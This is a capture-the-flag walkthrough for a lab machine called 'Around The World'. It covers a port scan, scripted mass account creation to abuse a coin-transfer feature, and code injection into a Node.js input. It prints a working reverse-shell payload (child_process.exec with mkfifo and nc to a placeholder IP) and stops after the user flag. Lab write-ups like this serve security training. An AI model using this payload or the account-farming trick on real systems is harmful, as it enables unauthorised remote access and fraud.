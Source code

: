 # CTF: Around The World

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/aroundtheworld.png)
## Description

> Discover the secret track of the famous duo!

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.14.0 (Ubuntu)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We arrive on a page with account and bank system. We can create an account and login.

We have a page `/premiumfeatures.html` with a button to upgrade to premium.

When create account we start with 1 coin and we can buy a premium account for 10000 coins.

We can send gold to other users.

We have to create a script who create 10000 accounts and send gold to our account.

We can now buy a premium account and go to the premium page.

We have a input to enter a code. If we check the site it was an NodeJS site. We can try reverseshell with the code.

```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDRESS PORT >/tmp/f')
```

We have the user flag.

**Well done! You have the user flag!**
